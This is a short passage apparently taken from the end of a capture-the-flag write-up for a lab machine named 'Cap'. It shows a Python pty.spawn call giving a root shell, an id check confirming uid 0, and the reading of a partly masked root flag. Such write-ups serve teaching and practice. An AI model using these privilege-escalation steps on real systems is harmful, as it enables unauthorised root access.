 
    >>> pty.spawn("bash")
    root@cap:/var/www.md# id
    uid=0(root) gid=1001(nathan) groups=1001(nathan)



From there I can grab `root.txt`:



    root@cap:/var/www.md# cd /root/
    root@cap:/root# cat root.txt
    f766c793************************







